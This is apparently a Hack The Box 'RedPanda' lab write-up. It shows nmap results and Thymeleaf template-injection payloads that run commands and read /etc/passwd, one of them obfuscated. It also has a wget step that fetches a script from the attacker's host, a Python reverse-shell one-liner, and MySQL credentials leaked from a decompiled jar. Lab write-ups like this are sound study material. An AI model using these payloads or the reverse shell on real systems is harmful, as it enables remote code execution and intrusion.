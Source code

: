 # RedPanda

## IP = 10.10.11.170

## Nmap

### Initial
```
# Nmap 7.92 scan initiated Fri Aug  5 05:36:07 2022 as: nmap -sC -sV -oN nmap/initial 10.10.11.170
Nmap scan report for 10.10.11.170
Host is up (0.079s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
|_http-title: Red Panda Search | Made with Spring Boot
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Fri, 05 Aug 2022 09:36:24 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
|     <head>
|     <meta charset="utf-8">
|     <meta author="wooden_k">
|     <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->
|     <link rel="stylesheet" href="css/panda.css" type="text/css">
|     <link rel="stylesheet" href="css/main.css" type="text/css">
|     <title>Red Panda Search | Made with Spring Boot</title>
|     </head>
|     <body>
|     <div class='pande'>
|     <div class='ear left'></div>
|     <div class='ear right'></div>
|     <div class='whiskers left'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='whiskers right'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='face'>
|     <div class='eye
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Fri, 05 Aug 2022 09:36:24 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 05 Aug 2022 09:36:24 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=8/5%Time=62ECE499%P=x86_64-pc-linux-gnu%r(Get
SF:Request,690,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html;charset
SF:=UTF-8\r\nContent-Language:\x20en-US\r\nDate:\x20Fri,\x2005\x20Aug\x202
SF:022\x2009:36:24\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html
SF:>\n<html\x20lang=\"en\"\x20dir=\"ltr\">\n\x20\x20<head>\n\x20\x20\x20\x
SF:20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<meta\x20author=\"wooden
SF:_k\">\n\x20\x20\x20\x20<!--Codepen\x20by\x20khr2003:\x20https://codepen
SF:\.io/khr2003/pen/BGZdXw\x20-->\n\x20\x20\x20\x20<link\x20rel=\"styleshe
SF:et\"\x20href=\"css/panda\.css\"\x20type=\"text/css\">\n\x20\x20\x20\x20
SF:<link\x20rel=\"stylesheet\"\x20href=\"css/main\.css\"\x20type=\"text/cs
SF:s\">\n\x20\x20\x20\x20<title>Red\x20Panda\x20Search\x20\|\x20Made\x20wi
SF:th\x20Spring\x20Boot</title>\n\x20\x20</head>\n\x20\x20<body>\n\n\x20\x
SF:20\x20\x20<div\x20class='pande'>\n\x20\x20\x20\x20\x20\x20<div\x20class
SF:='ear\x20left'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='ear\x20ri
SF:ght'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='whiskers\x20left'>\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x2
SF:0\x20\x20<div\x20class='whiskers\x20right'>\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</d
SF:iv>\n\x20\x20\x20\x20\x20\x20<div\x20class='face'>\n\x20\x20\x20\x20\x2
SF:0\x20\x20\x20<div\x20class='eye")%r(HTTPOptions,75,"HTTP/1\.1\x20200\x2
SF:0\r\nAllow:\x20GET,HEAD,OPTIONS\r\nContent-Length:\x200\r\nDate:\x20Fri
SF:,\x2005\x20Aug\x202022\x2009:36:24\x20GMT\r\nConnection:\x20close\r\n\r
SF:\n")%r(RTSPRequest,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/h
SF:tml;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435\
SF:r\nDate:\x20Fri,\x2005\x20Aug\x202022\x2009:36:24\x20GMT\r\nConnection:
SF:\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>HT
SF:TP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x20
SF:type=\"text/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1,
SF:\x20h2,\x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h1\x2
SF:0{font-size:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px;
SF:}\x20p\x20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{height
SF::1px;background-color:#525D76;border:none;}</style></head><body><h1>HTT
SF:P\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html>
SF:");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug  5 05:36:39 2022 -- 1 IP address (1 host up) scanned in 31.75 seconds

```

### STTI in the search
Template engine: Thymeleaf
Exploit: `name=*{new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}`

Get user.txt: `name=*{new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("cat ../../../../../../home/woodenk/user.txt").getInputStream()).next()}`
Dump with any charachter and with any size (in this case dump (/etc/passwd): `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}`

https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md


The plan is:
1. Upload a revshell
	1.1. Setup a HTTP Server: python3 -m http.server
	1.2. Recover the revshell: `name=*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("wget http://10.10.14.38:8000/rev.sh").getInputStream())}`
2. Make it executable: `name=*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("chmod 777 rev.sh").getInputStream())}`
3. Run it: `name=*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("./rev.sh").getInputStream())}`

### Revshell file
```bash

#!/bin/bash

python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.38",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

```

### Interesting files
/opt/panda_search

### In decompiled jar:
- MySQL credentials: `woodenk:RedPandazRule`
- Logger file in decompiled (RequestInterceptor.class) :
```java
public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
    System.out.println("interceptor#postHandle called. Thread: " + Thread.currentThread().getName());
    String UserAgent = request.getHeader("User-Agent");
    String remoteAddr = request.getRemoteAddr();
    String requestUri = request.getRequestURI();
    Integer responseCode = Integer.valueOf(response.getStatus());
    System.out.println("LOG: " + responseCode.toString() + "||" + remoteAddr + "||" + UserAgent + "||" + requestUri);
    FileWriter fw = new FileWriter("/opt/panda_search/redpanda.log", true);
    BufferedWriter bw = new BufferedWriter(fw);
    bw.write(responseCode.toString() + "||" + responseCode.toString() + "||" + remoteAddr + "||" + UserAgent + "\n");
    bw.close();
  }
``` 